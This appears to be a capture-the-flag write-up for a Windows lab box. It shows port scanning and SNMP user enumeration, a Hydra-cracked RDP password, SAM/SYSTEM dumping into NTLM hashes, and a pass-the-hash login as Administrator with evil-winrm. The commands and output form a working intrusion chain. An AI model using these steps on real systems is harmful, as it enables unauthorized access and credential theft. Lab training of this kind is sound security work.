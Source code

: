 
### Nmap

PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
47001/tcp open  winrm

UDP port SNMP 161 open

snmp-check 10.10.233.57 -c openview

```
[*] User accounts:

  Guest               
  Jareth              
  Administrator       
  DefaultAccount      
  WDAGUtilityAccount 
```

With this username crack password using hydra

	[3389][rdp] host: 10.10.233.57   login: Jareth   password: login: Jareth password: sarah

## Privesc

```
*Evil-WinRM* PS C:\Users\Jareth\Desktop> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== =============================================
year-of-the-owl\jareth S-1-5-21-1987495829-1628902820-919763334-1001


```

cd 'c:\$recycle.bin\<User SID>' Recyle bin has the sam and system bak files. 


```
┌──(arun㉿kali)-[/usr/share/creddump7]
└─$ python pwdump.py ~/CTF/THM/yearoftheowl/SYSTEM ~/CTF/THM/yearoftheowl/SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17161dfd4555a:::
```

### Pass the Hash

```
┌──(arun㉿kali)-[/usr/share/creddump7]
└─$ evil-winrm -i 10.10.233.57 -u administrator -H 6bc99ede9edcfecf9662fb0c0ddcfa7a

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
